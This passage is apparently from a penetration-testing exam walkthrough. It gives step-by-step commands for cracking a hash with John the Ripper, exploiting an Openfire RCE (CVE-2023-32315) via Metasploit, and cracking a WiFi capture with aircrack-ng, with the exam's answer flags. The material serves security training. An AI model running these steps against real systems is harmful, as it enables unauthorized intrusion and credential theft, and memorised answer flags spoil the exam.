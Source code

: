 After a couple of seconds you will be shown the correct password.

If not, do `john --show user_hash` and it will show you the cracked password it got.

Answer: EXAM{109929}

# QUESTION 14

Text: The software on the .24 is vulnerable to RCE. Find the exploit, use it, and read the contents of `exam.txt`.

Solution:

As said, it was running `Openfire` if you navigate there.

Open `msfconsole`

`search openfire`

`use exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315`

`options` or `show options`

`set RHOSTS 192.168.28.24`

`set LHOST <your_ip>`

`run` or `exploit`

Wait a bit till it says that it opened a session

Do `ls`

Then `cat exam.txt`

Answer: EXAM{618982}

# QUESTION 15 (captures)

Text: In the first capture, we need to crack the password for one of the networks, to then read some contents from the same capture. The password looks the same as EXAM{XXXXXX}

Solution:

Download the capture (go on the IP address from your Kali and you will get the file)

Then open the Downloads directory, and run

`aircrack-ng -w pw.txt wificapexam-01.cap`

Since we still know that the password is similar format, reuse the same wordlist

It will ask you which network to crack, choose the one that has an Encryption specified unlike the others (check leho example as well)

After some time, you get the password.

Answer: EXAM{001754}

# QUESTION 16
